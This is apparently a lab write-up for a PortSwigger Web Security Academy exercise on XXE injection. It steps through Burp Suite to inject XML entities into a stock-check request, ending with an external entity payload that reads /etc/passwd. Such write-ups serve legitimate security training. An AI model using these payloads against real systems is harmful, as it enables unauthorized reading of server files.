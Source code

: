 ```yaml
---
description: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
---
```


# Exploiting XXE using external entities to retrieve files

<figure><img src="../../../.gitbook/assets/1 (156).png" alt=""><figcaption></figcaption></figure>

Let's check the stock of one of the products.

<figure><img src="../../../.gitbook/assets/2 (11).png" alt=""><figcaption></figcaption></figure>

Since we are proxying the requests through Burp Suite, we can go to `Proxy > HTTP History` to view the request.

<figure><img src="../../../.gitbook/assets/3 (11).png" alt=""><figcaption></figcaption></figure>

We can see that the request contains an XML entity.

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater` tab, declare the following internal entity after the XML prologue:

```
<!DOCTYPE test 
[<!ENTITY test "test_entity">]
>
```

And reference the entity within the `<productId>` tag as follows:

```
<productId>
    &test;
</productId>
```

<figure><img src="../../../.gitbook/assets/4 (8).png" alt=""><figcaption></figcaption></figure>

The response includes out `test` entity. This tells us that the application is vulnerable to XXE injection.

Now, in place of the internal entity, declare the following entity:

```
<!DOCTYPE test 
[<!ENTITY test SYSTEM "file:///etc/passwd">]
>
```

<figure><img src="../../../.gitbook/assets/5 (9).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>
